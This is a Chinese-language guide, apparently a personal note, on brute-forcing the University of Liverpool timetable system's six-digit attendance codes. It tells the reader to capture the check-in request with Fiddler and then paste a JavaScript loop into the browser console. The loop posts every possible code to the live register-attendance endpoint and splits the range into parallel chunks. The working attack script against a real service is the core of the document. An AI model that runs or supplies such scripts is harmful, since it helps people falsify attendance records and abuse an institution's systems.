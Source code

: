 # UoL - Attendance Code 爆破

<aside>
💡 **请谨慎使用**
此方法极易被检测到异常流量
不清楚现在及未来 管理员是否会针对该方法

</aside>

# 0. Intro

## 0.1 原理

通过浏览器开发人员控制台, 执行JS爆破

抓包, 模拟请求

由于涉及到 SSL证书 等操作, 这个方法比写程序容易操作很多, 无论是编写还是执行

## 0.2 可行性

执行时需要手动分成多个线程进行爆破, 每100000的耗时在2.78h左右 (间隔100ms)

据观察, 没有0开头的6位签到码

所以从100000-999999分成18组, 每组50000个, 并行爆破 

理想情况下, 仍需要1.3h

<aside>
💡 实测可行性不高
</aside>

# 1. 步骤

## 1.1 初始化准备

1. 浏览器
2. 抓包工具 (以 `Fiddler` 为例)

## 1.2 准备数据 (手动操作一遍, 获取请求信息)



1. 浏览器打开 Timetable
    
    [Sign In](https://timetables.liverpool.ac.uk/)
    
2. 打开 Fiddler
3. 进入timetable, 打开指定课程, 输入一次签到码
4. 切换回 Fiddler, 从左侧列表中的 `Host` 列, 找到 `timetables.liverpoo.ac.uk` 且其对应的  `URL`   列显示为 `/services/register-attendance-student` , 双击该行
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/c0e70c2e-df67-4058-b784-bb332f4e7c0a/Untitled.png)
    

## 1.3 构建脚本数据



1. 选中 Fiddler 左侧行后, 右侧会显示 该数据包相关信息
2. 点击 `raw` 选项卡, 里边最后一行就是数据正
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/3a352054-ceaa-444b-a420-1b33e16e0047/9239a0a9-890c-4a94-9410-f59c8f88b11f/Untitled.png)
    
3. 从里边提取对应字段, 替换下方脚本代码 `body` 对应字段
    
    ```
    async function sendRequests() {
      // let i = 0; i <= 99999; i++ 好像没有0开头的
      // let i = 100000; i <= 149999; i++
      // let i = 150000; i <= 199999; i++
      // let i = 200000; i <= 249999; i++
      // let i = 250000; i <= 299999; i++
      // let i = 300000; i <= 349999; i++
      // let i = 350000; i <= 399999; i++
      // let i = 400000; i <= 449999; i++
      // let i = 450000; i <= 499999; i++
      // let i = 500000; i <= 549999; i++
      // let i = 550000; i <= 599999; i++
      // let i = 600000; i <= 649999; i++
      // let i = 650000; i <= 699999; i++
      // let i = 700000; i <= 749999; i++
      // let i = 750000; i <= 799999; i++
      // let i = 800000; i <= 849999; i++
      // let i = 850000; i <= 899999; i++
      // let i = 900000; i <= 949999; i++
      // let i = 950000; i <= 999999; i++
      for (let i = 0; i <= 999999; i++) {
        let attCodeInputValue = i.toString().padStart(6, "0");
    
        try {
          const response = await fetch(
            "https://timetables.liverpool.ac.uk/services/register-attendance-student",
            {
              method: "POST",
              headers: {
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
              },
              // 此处做替换
              body: `attCodeInput=${attCodeInputValue}&
              uniqueId=your_uniqueid&actId=your_actid&attStart=your_attStart&attEnd=your_attEnd&location=your_location`,
            }
          );
    
          if (!response.ok) {
            throw new Error(`HTTP error! status: ${response.status}`);
          }
    
          const data = await response.json();
          console.log(data);
        } catch (error) {
          console.error("Error:", error);
        }
    
        await new Promise((resolve) => setTimeout(resolve, 500)); 
      }
    }
    
    sendRequests();
    ```
    

## 1.4 发送数据



<aside>
💡 该步骤需要尽量细分 (多新建选项卡, 多分割代码区间)

</aside>

1. 切换回浏览器的Timetable选项卡
2. 按 `F12` 打开开发者控制台
3. 切换到 `console` 选项卡
4. 粘贴你刚刚构建好的脚本, 回车执行